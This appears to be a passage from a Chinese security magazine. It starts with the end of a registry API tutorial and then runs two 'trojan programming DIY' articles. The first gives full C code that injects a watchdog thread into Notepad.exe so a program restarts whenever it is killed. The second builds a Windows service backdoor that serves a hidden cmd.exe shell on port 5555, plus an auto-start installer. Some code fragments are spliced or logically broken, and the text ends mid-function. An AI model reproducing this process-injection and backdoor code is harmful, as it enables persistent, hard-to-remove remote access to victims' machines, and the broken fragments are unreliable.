  lpName,            // 子键名称
  lpcbName,          // 子键名称长度
  lpReserved,        // 系统保留，指定为0
  lpClass,           // 子键类名
  lpcbClass,         // 子键类名长度
  lpftLastWriteTime  // 最后写入时间
)
```

因为在之前我们已通过 RegQueryInfoKey 函数获取了键的有关数据，所以在这里不再根据 ERROR_NO_MORE_ITEMS 来实现了。其实现代码如下。

与枚举子键相似，在每次循环中应该重新设置数据长度 `DataSize = MaxDataLen + 1`，键值名称长度 `NameSize = NameMaxLen + 1`。

```cpp
for(dwIndex = 0; dwIndex < KeyCnt; dwIndex++)
// 枚举子键
{
    KeySize = KeyMaxLen + 1;
    // 因为 RegQueryInfoKey 得到的长度不包括 0 结束字符，所以应加 1
```

##### 创建/删除子键

创建子键跟打开子键差不多，要使用 RegCreateKeyEx 函数来实现，其原型如下。

```cpp
RegCreateKeyEx(
    hKey,                 // 父键句柄
    lpSubKey,             // 子键句柄
    Reserved,             // 系统保留，指定为0
    lpClass,              // 定义子键类名，通常设为NULL
    dwOptions,            // 创建子键时的选项
    samDesired,           // 创建后操作权限
    lpSecurityAttributes, // 指向 SECURITY_ATTRIBUTES 结构
    phkResult,            // 返回创建句柄
    lpdwDisposition       // 通常设为NULL
)
```

个人感觉这个 API 挺啰嗦的，不太好用，大多参数在很多时候都为 NULL，还不如16位下的 API 函数 RegCreateKey 用着方便。其实例代码如下。

```cpp
HKEY KEY;
if(ERROR_SUCCESS != RegCreateKey(HKEY_LOCAL_MACHINE,
    "SOFTWARE\\Microsoft\\Windows\\MyKey", &KEY))
{
    MessageBox("创建失败!");
}
else
{
    MessageBox("创建成功!");
}
```

嘿嘿，是不是简单多了？删除一个键可以用 RegDeleteKey() 实现，它有两个参数，原型如下。

```cpp
RegDeleteKey(
    hKey,      // 主键句柄
    lpSubKey   // 子键名称字符串
)
```

如果想删除上面创建的 MyKey 子键，可以用下面的代码实现。

```cpp
if(ERROR_SUCCESS == RegDeleteKey(
    HKEY_LOCAL_MACHINE,
    "SOFTWARE\\Microsoft\\Windows\\MyKey"))
{
    AfxMessageBox("删除成功!");
}
else
{
    AfxMessageBox("删除失败!");
}
```

需要注意的是，在创建子键时可以创建多级子键，比如 `RegCreateKey(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\MyKey1\\MyKey2", &KEY)`。如果 MyKey1 不存在的话，那么它将先创建 MyKey1 再创建 MyKey2，这一点与文件系统中创建目录是不同的。但是删除的时候却不能删除多级子键，比如我想删除 MyKey1，那么必须先删除 MyKey2 才可以，不过一个子键下面的多个键值可以一次删除。

##### 创建/删除键值项

创建键值可以用 RegSetValueEx 函数来实现，它的原型如下。

```cpp
RegSetValueEx(
    hKey,         // 键句柄，键值项将保存在此键下
    lpValueName,  // 键值项名称
    Reserved,     // 系统保留，指定为0
    dwType,       // 键值项类型
    lpData,       // 键值项数据
    cbData        // 键值项长度
)
```

使用这个函数的时候，有一点需要注意：参数 lpData 和 cbData 的值要根据 dwType 的值来设定。按常用设置，可以分为3种情况。

- 1. 当 `dwType` 为 `REG_SZ` 时，`lpData` 为要设置的数据，`cbData` 为数据长度。
- 2. 当 `dwType` 为 `REG_DWORD` 时，`cbData` 应该设为 `4`。
- 3. 当 `dwType` 为 `REG_BINARY` 时，`cbData` 也应该设为 `4`。

如果调用时，键值项名称已经存在了会怎么样呢？答案是覆盖，用新的键值项数据覆盖原来的；如果没有就新建一个。我们来看一下实现功能的实例代码。

```cpp
void CreateValue::OnCreate()
{
    HKEY key;
    UpdateData(true);
    if(m_type == "REG_SZ")
    {
        if(RegOpenKeyEx(MKEY, SubKey, 0, KEY_ALL_ACCESS, &key) == ERROR_SUCCESS)
        {
            if(RegSetValueEx(key, m_name, 0, REG_SZ,
                (const unsigned char *)m_data, MAX_PATH) == ERROR_SUCCESS)
            {
                MessageBox("创建成功!");
            }
        }
    }

    if(m_type == "REG_DWORD")
    {
        if(RegOpenKeyEx(MKEY, SubKey, 0, KEY_ALL_ACCESS, &key) == ERROR_SUCCESS)
        {
            if(RegSetValueEx(key, m_name, 0, REG_DWORD,
                (const unsigned char *)m_data, 4) == ERROR_SUCCESS)
            {
                // 注意数据长度应该设为4
                MessageBox("创建成功!");
            }
        }
    }
}
```

```c
}
/* 其它类型的设置…… */
}
```

删除键值可以用 `RegDeleteValue` 来实现，它的函数原型如下。

```c
RegDeleteValue(
    hKey,         // 父键句柄
    lpValueName   // 要删除的键值项名称
)
```

其实例代码如下。

```c
HKEY key;
char value[MAX_PATH] = "LengFeng"; // 键值
LPCTSTR data = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"; // 路径
RegOpenKeyEx(HKEY_LOCAL_MACHINE, data, 0, KEY_WRITE, &key); // 打开
if (ERROR_SUCCESS == RegDeleteValue(key, value)) // 删除
{
    MessageBox("删除成功!");
}
```

## 备份／恢复注册表

备份和恢复注册表相对来说用得不是太多，我在程序中也没有加入这项功能，但为了这篇文章完整一些，就用一个运行在 CONSOLE 下的小程序来讨论一下。实现备份注册表可以用 `RegSaveKey` 函数来实现，它的原型如下。

```c
RegSaveKey(
    hKey,                 // 要备份的键句柄
    lpFile,               // 保存信息的文件名称
    lpSecurityAttributes  // 文件安全属性
)
```

`hKey` 为要备份的键句柄，可以是系统预定义的，也可以是用 `RegOpenKey()` 打开或是 `RegCreateKeyEx()` 创建的。`lpFile` 为保存信息的文件名称，注意这个文件必须是不存在的，而且也不能有扩展名（否则 `RegRestoreKey()` 函数无法读取）；`lpSecurityAttributes` 在 NT 系统中用来设置新文件的安全属性，通常设置为 `NULL`。

在使用这个函数时需要有 `SE_BACKUP_NAME` 权限，而这个权限是不可以在 `RegOpenKey()` 或是 `RegCreateKeyEx()` 指定的。要做到这一点，我们需要提升自己的权限，其具体实现代码如下所示。

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char strKey[] = "Software\\Microsoft\\Internet Explorer";
    LPTSTR szSaveFileName;
    HKEY key;
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;

    // 申请备份权限
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return;
    LookupPrivilegeValue(NULL, SE_BACKUP_NAME, &tkp.Privileges[0].Luid);
    // 申请 SE_BACKUP_NAME 权限
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);

    // 开始备份工作
    szSaveFileName = LPTSTR("D:\\KeyDate");
    // 注意文件不可存在，否则无法成功
    RegOpenKeyEx(
        HKEY_CURRENT_USER,
        (LPCTSTR)strKey,
        0,
        KEY_ALL_ACCESS,
        &key);
    RegSaveKey(key, szSaveFileName, NULL);
    RegCloseKey(key);
}
```

上面用到的提升权限的代码，以前杂志上有很多，大家可以参考，这样备份就完成了。至于恢复，则可用函数 `RegRestoreKey` 来实现，它的原型如下。

```c
RegRestoreKey(
    hKey,     // 要恢复的键句柄
    lpFile,   // 保存信息的文件名称
    dwFlags   // 标志是否易失
)
```

此函数的前两个参数可以与 `RegSaveKey` 相同。而参数 `dwFlags` 为 `TRUE` 的话，是暂时恢复注册表；如果为 `FALSE`，则是永久修改注册表值。同样需要注意的是，使用这个函数需要有 `SE_RESTORE_NAME` 权限。

到现在为止，对注册表的基本操作就做完了，我们也可以休息一下了。至于具体细节的实现，大家可以参考本文所附的源代码。虽然程序本身是模仿 Windows 的注册表，不过功能细节与 Windows 的注册表相比还是有很大差距的，如果有兴趣的话可以继续改进。这篇文章和程序断断续续写了一周，如果本文能帮助大家解决几个即使很小的问题，那么我也倍感欣慰了。

> 「本文涉及的代码（程序），请见随书光盘」

## 木马编程 DIY 之线程守护

文／图 冷风 德州科技职业学院

要防止程序被关闭，通常有两种方法：

- 一是像 IcesWord 一样 HOOK 系统底层的函数；
- 二是使用线程保护。

这里我们主要学习线程保护的方法。

线程保护的思路就是让其他程序监视自己，如果自身程序退出了，那么监视程序就重新启动。这个过程我简单画了一个图，以帮助大家更好地理解。



我们来分析一下线程守护的思路，并编程实现一个简单的线程守护程序，完成的功能是把监视代码插入到 `Notepad.exe` 进程以监视程序本身。如果自身被关闭，`Notepad.exe` 进程将重新启动自身程序，以达到不死的效应。以下代码在 VC6 中编译通过。

现在我们重新整理一下思路：首先我们找一个其他进程作为我们的保护神，并把自己进程的句柄传给保护神。保护神通过 `WaitForSingleObject` 函数检测句柄来判断要保护的进程是否结束，如果结束就重新启动我们的程序。根据上面的思路，下面我们来分析具体细节的实现。

##### 检测并保护程序的远程线程代码

保护自己的代码要注入到 `Notepad.exe` 进程，而执行远程线程代码的 API 都需要重新定位。为了这个问题，我们定义如下的结构。

```c
typedef struct _remoteparameter
{
    DWORD rpWaitForSingleObject;
    DWORD rpOpenProcess;
    DWORD rpWinExec;
    DWORD rpProcessPID;
    HANDLE rpProcessHandle;
    char path[MAX_PATH];
} REMOTEPARAM;
```

这个结构中的前 3 项为远程线程中需要使用的 API 函数，`rpProcessPID` 为要保护的进程 PID，`rpProcessHandle` 用来保存要保护进程的句柄，`path` 为当程序被关闭时需要启动的程序路径。远程线程函数如下。

```c
DWORD WINAPI remote(LPVOID pvparam)
{
    REMOTEPARAM *rp = (REMOTEPARAM*)pvparam;
    // 传递进来的信息
    typedef UINT (WINAPI *EWinExec)(LPCSTR, UINT);
    typedef HANDLE (WINAPI *EOpenProcess)(DWORD, BOOL, DWORD);
    typedef DWORD (WINAPI *EWaitForSingleObject)(HANDLE, DWORD);

    EWinExec tWinExec;
    EOpenProcess tOpenProcess;
    EWaitForSingleObject tWaitForSingleObject;

    tOpenProcess = (EOpenProcess)rp->rpOpenProcess;
    tWaitForSingleObject = (EWaitForSingleObject)rp->rpWaitForSingleObject;
    tWinExec = (EWinExec)rp->rpWinExec;

    rp->rpProcessHandle = tOpenProcess(PROCESS_ALL_ACCESS, FALSE, rp->rpProcessPID);
    // 打开受保护的进程
    tWaitForSingleObject(rp->rpProcessHandle, INFINITE);
    // 受保护的进程是否结束
    tWinExec(rp->path, SW_SHOW);
    // 如果结束就重新启动程序
    return 0;
}
```

将 `remote` 函数代码注入 `Notepad.exe` 进程并启动，这里为了方便，我将其定义成了一个函数，使用时只要提供要注入的进程名称就可以完成线程守护的功能，返回值是远程线程的句柄。其实现代码如下。

```c
HANDLE CreateRemoteThreadProc(char* ProcessName)
{
    HANDLE ThreadHandle;
    char FilePath[MAX_PATH];
    GetModuleFileName(NULL, FilePath, MAX_PATH);
    // 得到文件所在路径
    int procID = processtopid(ProcessName);
    printf("The process pid is %d\n", procID);

    HINSTANCE hkernel32;
    HANDLE rphandle;
    char *remotethr;
    char *remotepar;
    int cb;

    rphandle = OpenProcess(PROCESS_CREATE_THREAD |
                           PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
                           FALSE, procID);

    if (rphandle == NULL) {
        printf("Open Remote Process is Error\n");
    } else {
        printf("open process is ok\n");
    }

    /****************************/
    /* 将远程线程函数代码拷入目标进程 */
    /****************************/
    cb = sizeof(char) * 4 * 1024;
    remotethr = (PSTR)VirtualAllocEx(rphandle, NULL, cb,
                                     MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (remotethr == NULL) {
        printf("VirtualAllocEx for Thread Error\n");
        CloseHandle(rphandle);
    } else {
        printf("VirtualAllocEx is ok\n");
    }

    if (WriteProcessMemory(rphandle, remotethr, (LPVOID)remote, cb, NULL) == FALSE) {
        printf("WriteProcessMemory for Thread Error\n");
        CloseHandle(rphandle);
    } else {
        printf("WriteProcessMemory is ok\n");
    }

    /****************************/
    /* 将远程线程函数参数拷入目标进程 */
    /****************************/
    REMOTEPARAM rp;
    memset((char*)&rp, 0, sizeof(rp));
    hkernel32 = GetModuleHandle("kernel32.dll");
    if (hkernel32 == NULL) {
        printf("hKernel32 is Error\n");
    }

    rp.rpProcessPID = GetCurrentProcessId();
    rp.rpOpenProcess = (DWORD)GetProcAddress(hkernel32, "OpenProcess");
    rp.rpWinExec = (DWORD)GetProcAddress(hkernel32, "WinExec");
    rp.rpWaitForSingleObject = (DWORD)GetProcAddress(hkernel32, "WaitForSingleObject");
    _tcscpy(rp.path, FilePath);
    cb = sizeof(char) * sizeof(rp);

    remotepar = (PSTR)VirtualAllocEx(rphandle, NULL, cb,
                                     MEM_COMMIT, PAGE_READWRITE);
    if (remotepar == NULL) {
        printf("VirtualAllocEx for Parameter Error\n");
        CloseHandle(rphandle);
    }

    if (WriteProcessMemory(rphandle, remotepar, (LPVOID)&rp, cb, NULL) == FALSE) {
        printf("WriteProcessMemory for Parameter Error\n");
        CloseHandle(rphandle);
    }

    /****************************/
    /* 将远程线程注入目标进程 */
    /****************************/
    ThreadHandle = CreateRemoteThread(rphandle, NULL, 0,
                    (LPTHREAD_START_ROUTINE)remotethr,
                    (LPVOID)remotepar, 0, NULL);

    if (ThreadHandle == NULL) {
        printf("CreateRemotThreadHandle Error\n");
        CloseHandle(rphandle);
    } else {
        printf("CreateRemotThreadHandle is ok\n");
        return ThreadHandle;
    }
}
```

##### 其他自定义函数实现

其实 `CreateRemoteThreadProc` 函数就是最关键的实现了，不过最后还要介绍一下这个函数中的两个自定义函数。

```c
DWORD processtopid(char *processname)
{
    // 根据进程名称取 PID 值
    DWORD lpidprocesses[1024], cbneeded, cprocesses;
    HANDLE hprocess;
    HMODULE hmodule;
    UINT i;
    TCHAR normalname[MAX_PATH] = ("UnknownProcess");

    if (!EnumProcesses(lpidprocesses, sizeof(lpidprocesses), &cbneeded)) {
        return -1;
    }

    cprocesses = cbneeded / sizeof(DWORD);
    for (i = 0; i < cprocesses; i++) {
        hprocess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ,
                               FALSE, lpidprocesses[i]);
        if (hprocess) {
            if (EnumProcessModules(hprocess, &hmodule, sizeof(hmodule), &cbneeded)) {
                GetModuleBaseName(hprocess, hmodule, normalname, sizeof(normalname));
                if (strcmp(normalname, processname)) {
                    CloseHandle(hprocess);
                }
            }
        }
    }
}
```

```c
return (lpidprocesses[i]);
}
CloseHandle(hprocess);
return 0;
}

BOOL EnablePriv() // 提升进程权限
{
  HANDLE hToken;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) {
    TOKEN_PRIVILEGES tkp;
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid);
    // 修改进程权限
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL);
    // 通知系统修改进程权限
  }
  return 0;
}
```

```c
int main(int argc, char* argv[])
{
  HANDLE RemoteThreadHandle;
  EnablePriv();
  RemoteThreadHandle = CreateRemoteThreadProc("Notepad.exe"); // 注入进程
  WaitForSingleObject(RemoteThreadHandle, INFINITE);
  // 等待结束
  return 0;
}
```

##### 主函数的实现

主要功能我们上面都实现了，那么主函数相对就十分简单了，其代码如下。

##### 测试程序效果

测试打开本文所属的程序，会发现通过结束进程等方法无法关闭本程序。这是因为程序被关闭后，Notepad.exe 程序会重新启动它。如果想关闭程序，只要先结束 Notepad.exe 就可以了。这样，线程守护就完成了。本程序很多地方参照了相关线程代码，在此表示感谢。其实多线程最初在 2002 年相关病毒中使用并广为人知，到现在这个技术仍被大量使用。最后，如果读者对本文有不明白的地方或者发现错误，欢迎交流。

> 【本文涉及的代码（程序），请见随书光盘】


## 木马编程DIY之服务启动技术

文／图 冷风  德州科技职业学院

随意打开一个木马的服务生成端，你都能发现里面有一种启动方式叫“服务启动”，也就是说这个技术已经大众化了。但是你写过这样的程序吗？如果写过的话，你就可以泡杯茶休息一下；如果还不是太了解的话，那就一块来学习一下吧。

通常编写一个服务需要两个程序，一个是实现功能的 Service 程序，一个是用于对 Service 程序进行控制的控制程序。这里需要注意的是，实现 Service 功能的程序与一般的程序是有区别的，其区别并不仅仅在于是不是有 GUI 窗体，在其格式上也不同。下面我们先写一个 CmdShell 后门的 Service 程序。

对于 Service 程序来说，它一般由以下 4 部分组成：main()、ServiceMain() 和 Handler()，当然还有我们的功能实现函数，比如 MyWork()。它们之间的关系，用一个简单的图示就可以一目了然：如图 1 所示，服务程序的基本流程就是由 main() 调用 ServiceMain()，再由 ServiceMain() 调用 Handler() 和执行功能函数 MyWork()。下面我们就按这个流程一步一步来实现后门程序。

### 程序的入口 main() 函数

服务程序的入口与普通程序一样也是从 main() 开始的，但不同的是服务程序的 main 极为简单，因为它只负责创建分派表并启动控制分派机。代码如下。



图1

```c
void main()
{
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "Name";
    // 线程名字
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    // 线程入口地址
    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
    // 最后一个必须为 NULL
    StartServiceCtrlDispatcher(ServiceTable);
    // 启动服务的控制分派线程
}
```

main() 是 Service 程序的主线程，当 Service Control Manager 开始一个 Service 进程时，它总是等待这个 Service 程序去调用 StartServiceCtrlDispatcher() 函数。当执行服务时，main() 将会调用 ServiceMain 函数，当 ServiceMain 执行完毕或者说发生错误时，StartServiceCtrlDispatcher 函数将会返回，然后主进程终止。

### 服务的真正入口 ServiceMain()

ServiceMain() 是 Service 程序的真正入口点，它主要完成以下功能：首先注册一个 Handler 去处理控制程序或控制面板，以及 Service 的控制要求，比如启动、停止、暂停、重启等；其次就是实现我们的功能操作。其实现代码如下。

```c
VOID WINAPI ServiceMain(DWORD dwArgc, LPTSTR *lpszArgv)
{
    DWORD status = 0;
    DWORD specificError = 0x111ffff;
    ServiceStatus.dwServiceType = SERVICE_WIN32;
    ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
    ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN | SERVICE_ACCEPT_PAUSE_CONTINUE;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;

    // 调用 RegisterServiceCtrlHandler() 注册一个 ServiceHandler 函数
    hStatus = RegisterServiceCtrlHandler("ServiceName", (LPHANDLER_FUNCTION)ServiceHandler);
    if (hStatus == 0)
        return;

    // Handle error condition
    status = GetLastError();
    if (status != NO_ERROR)
    {
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        ServiceStatus.dwWin32ExitCode = status;
        ServiceStatus.dwServiceSpecificExitCode = specificError;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    }

    // Initialization complete -- report running status
    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;
    SetServiceStatus(hStatus, &ServiceStatus);

    // 启动自己的工作线程
    HANDLE hThread = CreateThread(NULL, 0, mainfun, NULL, 0, NULL);
    if (hThread == NULL)
        return;
}
```

在 ServiceMain 中，通过 RegisterServiceCtrlHandler 注册一个 ServiceHandler 函数用来处理程序对 Service 的控制要求，其 ServiceHandler 函数的实现代码下面介绍。

##### ServiceHandler() 函数

当打开服务管理器，启动或者停止一个服务的时候，对你的操作进行响应的就是 ServiceHandler() 函数，它会判断你的操作，然后做出响应。ServiceHandler() 函数的实现代码如下。

```c
VOID WINAPI ServiceHandler(DWORD fdwControl)
{
    switch(fdwControl)
    {
    case SERVICE_CONTROL_PAUSE:
        ServiceStatus.dwCurrentState = SERVICE_PAUSED;
        break;
    case SERVICE_CONTROL_CONTINUE:
        ServiceStatus.dwCurrentState = SERVICE_RUNNING;
        break;
    case SERVICE_CONTROL_STOP:
    case SERVICE_CONTROL_SHUTDOWN:
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        ServiceStatus.dwWin32ExitCode = 0;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    case SERVICE_CONTROL_INTERROGATE:
        break;
    default:
        break;
    }
    SetServiceStatus(hStatus, &ServiceStatus);
    // 设置状态
    return;
}
```

到现在，服务的主要 3 个函数就算完工了，下面就是实现 CMDShell 后门的代码了。

##### 功能实现函数

这是一个简单的双管道的 CMDShell 服务端，运行后可以使用“Telnet ip 5555”进行连接，成功后会得到一个 Shell，实现代码如下。

```c
DWORD WINAPI mainfun(LPVOID lpParam)
{
    WSADATA wsadata;
    SOCKET server;
    SOCKET client;
    SOCKADDR_IN serveraddr;
    SOCKADDR_IN clientaddr;
    int port = 5555;
    WORD ver = MAKEWORD(2,2);
    // 判断 winsock 版本
    WSAStartup(ver, &wsadata);
    // 初始 SOCKET
    server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serveraddr.sin_family = AF_INET;
    serveraddr.sin_port = htons(port);
    serveraddr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
    bind(server, (SOCKADDR*)&serveraddr, sizeof(serveraddr));
    listen(server, 5);
    int len = sizeof(clientaddr);
    client = accept(server, (sockaddr*)&clientaddr, &len);
    HANDLE hWritePipe, hReadPipe, hWriteShell, hReadShell;
    SECURITY_ATTRIBUTES saPipe;
    STARTUPINFO lpStartupinfo;
    PROCESS_INFORMATION lpProcessInfo;
    char szBuffer[65535];
    DWORD dwBufferRead;
    int ret;
    saPipe.nLength = sizeof(saPipe);
    saPipe.bInheritHandle = TRUE;
    saPipe.lpSecurityDescriptor = NULL;
    // create read and write pipe
    CreatePipe(&hReadPipe, &hReadShell, &saPipe, 0);
    CreatePipe(&hWriteShell, &hWritePipe, &saPipe, 0);
    GetStartupInfo(&lpStartupinfo);
    lpStartupinfo.cb = sizeof(lpStartupinfo);
    lpStartupinfo.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    lpStartupinfo.hStdInput = hWriteShell;
    lpStartupinfo.hStdOutput = hReadShell;
    lpStartupinfo.hStdError = hReadShell;
    lpStartupinfo.wShowWindow = SW_HIDE;
    lpStartupinfo.lpDesktop = "WinSta0\\Default";
    char cmdline[MAX_PATH];
    GetSystemDirectory(cmdline, MAX_PATH);
    strcat(cmdline, "\\cmd.exe");
    ret = CreateProcess(cmdline, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &lpStartupinfo, &lpProcessInfo);
    while(1)
    {
        ZeroMemory(szBuffer, sizeof(szBuffer));
        PeekNamedPipe(hReadPipe, szBuffer, sizeof(szBuffer), &dwBufferRead, NULL, NULL);
        if(dwBufferRead != 0)
        {
            ret = ReadFile(hReadPipe, szBuffer, sizeof(szBuffer), &dwBufferRead, NULL);
            if(ret)
            {
                printf("The ReadFile Buffer is %s\n", szBuffer);
                EmptyPipe(hReadPipe);
            }
        }
        else
        {
            ZeroMemory(szBuffer, sizeof(szBuffer));
            ret = recv(client, szBuffer, sizeof(szBuffer), 0);
            if(ret == SOCKET_ERROR)
            {
                printf("SOCKET_ERROR\n");
                break;
            }
            if(ret > 0)
            {
                WriteFile(hWritePipe, szBuffer, ret, &dwBufferRead, 0);
            }
        }
        Sleep(100);
    }
    WriteFile(hWritePipe, "exit\r\n", (DWORD)strlen("exit\r\n"), &dwBufferRead, 0);
    return 0;
}

void EmptyPipe(HANDLE hReadPipe)
{
    BOOL ret;
    DWORD bytesRead;
    char *buffer = new char[1024];
    while(true)
    {
        memset(buffer, 0, 1024);
        ret = PeekNamedPipe(hReadPipe1, buffer, 1024, &bytesRead, 0, 0);
        if (bytesRead == 0 || !ret)
        {
            delete buffer;
            return;
        }
        ReadFile(hReadPipe1, buffer, bytesRead, &bytesRead, 0);
    }
}
```

到现在为止，服务程序就全部完成了，下面分别写两个小程序用来安装和删除服务。

##### 安装服务程序

```c
#include <windows.h>
#include <winsvc.h>
#include <stdio.h>
main()
{
    char name[100];
    char info[200];
    char path[300];
    printf("请输入服务名\n\n");
    scanf("%s", &name);
    printf("请输入服务描述\n\n");
    scanf("%s", &info);
    printf("请输入程序路径\n\n");
    scanf("%s", &path);
    SC_HANDLE manager = NULL;
    SC_HANDLE service = NULL;
    if((manager = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE)) == NULL)
    {
        printf("OpenSCManager Error");
    }
    service = CreateService(
        manager, name, info,
        SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
        SERVICE_AUTO_START, SERVICE_ERROR_NORMAL,
        path, 0, 0, 0, 0, 0);
    if(service)
        printf("服务创建成功\n\n");
    else
        printf("服务创建失败\n\n");
    CloseServiceHandle(service);
    CloseServiceHandle(manager);
}
```

##### 删除服务程序

```c
#include <windows.h>
#include <winsvc.h>
#include <stdio.h>
void main()
{
    char name[100];
    SC_HANDLE scm;
    SC_HANDLE service;
    SERVICE_STATUS status;
    printf("请输入要删除的服务名\n\n");
    scanf("%s", &name);
    if((scm = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE)) == NULL)
    {
        printf("OpenSCManager Error\n");
    }
    service = OpenService(scm, name, SERVICE_ALL_ACCESS|DELETE);
    if(!service)
    {
        printf("OpenService error!\n");
        return;
    }
    BOOL isSuccess = QueryServiceStatus(service, &status);
    if(isSuccess)
    {
        printf("QueryServiceStatus error!\n");
        return;
    }
    if(status.dwCurrentState != SERVICE_STOPPED)
    {
        isSuccess = ControlService(service, SERVICE_CONTROL_STOP, &status);
        if(isSuccess)
            printf("Stop Service error\n");
        Sleep(500);
    }
    isSuccess = DeleteService(service);
    if(isSuccess)
        printf("删除服务失败!\n");
    else
